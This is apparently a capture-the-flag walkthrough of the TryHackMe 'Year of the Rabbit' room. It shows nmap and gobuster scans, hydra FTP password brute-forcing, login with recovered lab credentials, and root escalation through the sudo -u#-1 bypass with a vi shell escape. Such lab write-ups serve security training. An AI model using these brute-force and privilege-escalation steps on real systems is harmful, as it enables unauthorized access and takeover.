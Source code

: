# Year of the Rabbit

**Room Link:** [https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

### Turn off Javascript

```
Enter about:config into the search bar and select Accept the Risk and Continue.
Enter javascript.enabled into the search box at the top of the page.
Select the javascript.enabled toggle to change the value to false.
```

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
strings Hot_Babe.png 
```

<figure><img src="../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l ftpuser -P passwords.txt ftp://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

## FTP

**Kali**

```
ftp $VICTIM
password: 5iez1wGXKfPKQ
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Elis creds is encoded with something called Brain fuck. There are tools online to decode it.

**Link:** [https://www.dcode.fr/brainfuck-language](https://www.dcode.fr/brainfuck-language)

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh eli@$VICTIM
Password: DSpDiM1wAEwid
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
locate s3cr3t
cat cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
```

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su gwendoline
Password: MniVCQVhQHUNI
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

## **Privilege escalation**

Mostly followed the link below, we can't run sudo with root as we have (ALL , !root) here. if we had (ALL , ALL) it would be easy to escalate. Adding sudo -u#-1  to infront of the command allows us to bypass this.

**Link:** [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

**Victim**

```
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
#While vi is open run:
:!/bin/sh
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>























